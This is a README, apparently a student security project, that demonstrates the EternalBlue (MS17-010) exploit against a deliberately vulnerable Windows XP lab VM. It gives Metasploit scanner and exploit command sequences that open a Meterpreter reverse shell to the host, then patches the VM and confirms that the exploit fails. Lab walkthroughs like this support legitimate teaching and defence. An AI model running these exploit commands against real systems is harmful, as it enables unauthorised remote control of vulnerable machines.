 # EthernalBlue
Cybersecurity Projects Portfolio | Penetration Testing | Vulnerability Assessments | Threat Research
This project explains how the EternalBlue exploit (MS17-010) works


███████╗████████╗███████╗██████╗ ███╗   ██╗ █████╗ ██╗     ██████╗ ██╗     ██╗   ██╗███████╗
██╔════╝╚══██╔══╝██╔════╝██╔══██╗████╗  ██║██╔══██╗██║     ██╔══██╗██║     ██║   ██║██╔════╝
█████╗     ██║   █████╗  ██████╔╝██╔██╗ ██║███████║██║     ██████╔╝██║     ██║   ██║█████╗  
██╔══╝     ██║   ██╔══╝  ██╔══██╗██║╚██╗██║██╔══██║██║     ██╔══██╗██║     ██║   ██║██╔══╝  
███████╗   ██║   ███████╗██║  ██║██║ ╚████║██║  ██║███████╗██████╔╝███████╗╚██████╔╝███████╗
╚══════╝   ╚═╝   ╚══════╝╚═╝  ╚═╝╚═╝  ╚═══╝╚═╝  ╚═╝╚══════╝╚═════╝ ╚══════╝ ╚═════╝ ╚══════╝
                                                                                            
██████╗ ███████╗███╗   ███╗ ██████╗                                                         
██╔══██╗██╔════╝████╗ ████║██╔═══██╗                                                        
██║  ██║█████╗  ██╔████╔██║██║   ██║                                                        
██║  ██║██╔══╝  ██║╚██╔╝██║██║   ██║                                                        
██████╔╝███████╗██║ ╚═╝ ██║╚██████╔╝                                                        
╚═════╝ ╚══════╝╚═╝     ╚═╝ ╚═════╝                                                         
                                                                                                                                       
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
                                                                                                                                                                                                                                                                      
“EthernalBlue” is an exploit created by the NSA as a cybersecurity tool. The official name of the exploit given by Microsoft is MS17-010. The exploit is not specific to windows devices but affects anything that works on the Microsoft SMBV1 Server Protocol. This README file contains instructions on how to demonstrate the EternalBlue Exploit on a test machine.


|** Links to Required Files **|

Download and install VirtualBox following the instructions given at https://www.virtualbox.org/wiki/Downloads.

Download the OVA file from https://swanseauniversity-my.sharepoint.com/:u:/g/personal/2153389_swansea_ac_uk/EYKnpRVgpGRJsMm8aNzDJVIBLi8GiT-lxJew0tVsdF2Oeg?e=UriXBA

The patch can be downloaded from https://www.catalog.update.microsoft.com/Search.aspx?q=KB4012598. It has already been downloaded and placed in the VM for this demo.

Place the files in as easily accessible directory.



|** VM Installation **|

Using the command virtualbox in a terminal.



|** In the virtualbox Window **|

Click on Tools
Click on Import (Toolbar to the right)
Select the ova file that was downloaded earlier, using the file icon at the right of the input box.
Click the Enter Key to go further.
Please wait for the Virtual Machine to load into memory; it might take a sec.



|** VM Network Setup **|

Once the VM has completed loading, click on the newly installed VM and Select Settings.
Once in Settings, Select Network.
Select Adapter 1 and Enable the Same.
Click on the dropdown and select "Bridged Adapter".
Now click Start to run the VM. 
Select the User "Very Vulnerable Comp".



[***From here on, Your Computer will be called the HOST***]

Now we need to set up the network so that both the HOST and the VM are on the same network.

On the HOST, open a Terminal (Alt + T).
Run the command "ifconfig" and note the Host IP and SubnetMask(netmask).

On the VM, open a Run dialog (Windows Key + R). 
Enter ncpa.cpl, which will open the Network connections manager.
Right-click on "Local Area Connection" and select Properties.
Click on Internet Protocol (TCP/IP) and select Properties.
Select the "Use the following IP address" option. You will see a prompt for the IP along with the Subnet mask.
Insert the IP of your host, making sure to set the last octet to a different number within the range [0-255]
Set the Subnet mask as it is shown on the host.
Continue clicking OK till the dialog box closes.
Optional: To make sure the IP has been set, Open a command prompt and run the ipconfig command on the VM.



|** Testing if VM is Vulnerable **|
On the Host, Open a Terminal and run msfconsole.
Once it is open, run the sequence of commands : use auxiliary/scanner/smb/smb_ms17_010 -> set RHOSTS  -> exploit
It should give an output similar to:-
//***********
-Host is likely VULNERABLE to MS17-010! - Windows 5.1 x86 (32-bit)
-Scanned 1 of 1 hosts (100% complete)
-The target is vulnerable.
***********//

Which tells us that the VM is Vulnerable to EternalBlue, therefore we now run the exploit.
[***Optional: If the HOST has UFW Enabled, Open a port using "sudo ufw allow 4242"***]

|** Running the Exploit **|
On the Metasploit console, run these commands in a sequence: use exploit/windows/smb/ms17_010_psexec -> set RHOSTS <IP of the VM> -> set LHOST <Host IP> -> exploit.
This will now provide us with an output similar to:
//************
--Meterpreter session 1 opened (137.44.123.158:4444 -> 137.44.122.100:1057 ) at 2022-03-16 14:11:46 +0000
--meterpreter >
************//

We now a shell running on the VM. To make sure, you can run the command: cd C://"Documents and Settings"/"Very Vulnerable Comp"/Desktop -> edit pwn
Save and Exit (Click Esc -> (Shift + :) -> wq -> Enter).
Run the command "exit" in the meterpreter shell to close it.
On the VM you should now see the pwn file on the desktop.



|** Patching the Vulnerablilty **|
On the desktop there is an executable provided with the name "windowsxp-Patch".
Run the executable and Install the patch.
Once the patch is installed the machine will restart, we can move on to the Host.

On the Host open the Metasploit console from earlier. 
Run the sequence of commands : use auxiliary/scanner/smb/smb_ms17_010 -> set RHOSTS <IP of the VM> -> exploit
You should be able to see an output like this, 
//*************
--Host does NOT appear vulnerable.
*************//
We can further confirm this by running the follwing sequence : use exploit/windows/smb/ms17_010_psexec -> set RHOSTS <IP of the VM> -> set LHOST <Host IP> -> exploit.
This will provide an output like,
//*************
<---------------- | Entering Danger Zone | ---------------->
[*] 137.44.122.100:445 - 	[*] Preparing dynamite...
[*] 137.44.122.100:445 - 		Trying stick 1 (x86)...Miss
[*] 137.44.122.100:445 - <---------------- | Leaving Danger Zone | ---------------->
[-] 137.44.122.100:445 - Unable to control groom transaction
*************//

Therefore we have verified that the VM is no longer vulnerable to the exploit.




